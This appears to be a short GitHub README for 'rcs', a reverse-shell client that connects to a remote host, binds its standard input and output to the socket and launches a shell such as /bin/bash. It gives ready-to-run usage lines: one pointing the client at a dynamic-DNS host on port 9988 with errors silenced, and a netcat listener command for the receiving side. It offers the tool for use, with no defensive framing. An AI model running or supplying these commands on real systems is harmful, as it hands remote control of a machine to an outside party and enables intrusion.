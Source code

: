 # rcs
Remote Client Shell

Process ('rcs') starts a conection. If any server responses, the client duplicate STDIN_FILENO, STDOUT_FILENO, and STDERR_FILENO and execve() a new process specified at 'rcs' parameters (maybe '/bin/bash').

'rcs' connection request is able to be retried (parameter) and sleep (parameter) at each connect() fails, waiting the server goes listenning.
 
 
Usage: $ ./rcs <IP> <PORT> <SHELL> <N_RETRY_CONNECT> <RETRY_SECONDS>
  
$ ./rcs sample.noip.com 9988 '/bin/bash' 10 5 2>/dev/null
 
Remote (netcat) usage: nc -nvlp <PORT>
  
$ nc -nvlp 9988
